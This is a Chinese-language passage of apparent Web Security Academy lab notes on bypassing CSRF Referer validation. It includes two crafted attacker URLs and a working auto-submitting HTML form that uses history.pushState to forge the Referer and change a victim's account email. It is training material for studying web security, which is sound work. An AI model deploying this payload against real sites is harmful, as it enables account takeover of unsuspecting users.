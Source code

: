 - 可以规避Referer的验证

  >某些应用程序以可绕过的简单方法验证Referer。例如，如果应用程序验证中Referer域**是否以预期值开头**，则攻击者可以将其作为其自己域的子域：
  >
  >```url
  >http://vulnerable-website.com.attacker-website.com/csrf-attack
  >```
  >
  >同样，如果应用程序只是验证**是否**Referer**包含自己的域**，则攻击者可以将所需的值放在URL中的其他位置：
  >
  >```url
  >http://attacker-website.com/csrf-attack?vulnerable-website.com
  >```
  >
  >尽管可以使用Burp识别这个漏洞，但当在浏览器中验证POC时候，经常会发现这种方法不再有效。为了降低以这种方式泄露敏感数据的风险，许多浏览器现在默认从`Referer`头中剥离查询字符串。
  >
  >我们可以通过确保包含漏洞的响应设置了`Referrer-Policy：unsafe-url`来覆盖浏览器的这种方式。
  >
  >```html
  ><html>
  >  
  >  <body>
  >  <script>history.pushState('', '', '/?0a1e006a0389aa2780290823001f00e1.web-security-academy.net')</script>
  >    <form action="https://0a1e006a0389aa2780290823001f00e1.web-security-academy.net/my-account/change-email" method="POST">
  >      <input type="hidden" name="email" value="17755dd6623&#64;gmail&#46;com" />
  >      <input type="submit" value="Submit request" />
  >    </form>
  >  </body>
  >	<script>document.forms[0].submit();</script>
  ></html>
  >```
  >
  >其中history.pushState()是HTML5中提供的一个浏览器API，允许在不刷新整个页面的情况下通过js修改浏览器地址栏的URL和当前的历史条目。
  >
  >```javascript
  >history.pushState(state, title, url);
  >```
  >
  >`url`: 新的历史记录条目的 URL。注意，这个 URL 应该是相对于当前页面的，而不是绝对 URL。



